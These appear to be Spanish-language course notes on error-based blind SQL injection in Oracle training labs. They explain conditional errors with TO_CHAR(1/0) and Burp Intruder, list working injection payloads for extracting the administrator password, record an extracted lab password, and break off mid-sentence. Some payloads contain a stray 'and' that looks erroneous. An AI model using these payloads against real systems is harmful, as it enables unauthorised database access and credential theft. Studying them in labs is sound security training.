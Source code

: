 Para provocar errores intencionados, se usa la función ‘TO_CHAR(1/0)‘ (división por cero en Oracle), dentro de expresiones ‘CASE WHEN‘ que evalúan condiciones booleanas. La idea es generar un error solo cuando la condición se cumple, lo que permite inferir información sin necesidad de ver los resultados directamente.

En esta clase continuamos con la explotación de la inyección SQL ciega basada en errores, utilizando las técnicas que vimos anteriormente para completar el proceso de extracción del password del administrador.

Aplicamos lo aprendido para automatizar la obtención de cada carácter de la contraseña utilizando Burp Intruder, apoyándonos en respuestas con error (código 500) para saber si el carácter probado es correcto. Se recorre así toda la cadena de forma sistemática.

**Oracle**

### Tamano de la constrasena

' order by 1 -- -


' union select '1' from dual -- -


' || (select '1' from dual) || '


'|| (select case when length(password)> 21 then to_char(1/0) else '' and from users where username='administrator')||'


### Constrasena


'|| (select case when substr(password,1,1)='c' then to_char(1/0) else '' and from users where username='administrator')||'




administrator  ir5irznuql3pyv7hexn8







# Inyección SQL basada en errores visibles

## Laboratorio: Inyección SQL visible basada en errores

Este laboratorio contiene una vulnerabilidad de inyección SQL. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada. Los resultados de la consulta SQL no se devuelven.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password. Para resolver el laboratorio, encuentre una manera de filtrar la contraseña del administrator usuario, luego inicie sesión en su cuenta.


Analizamos paso a paso cómo:
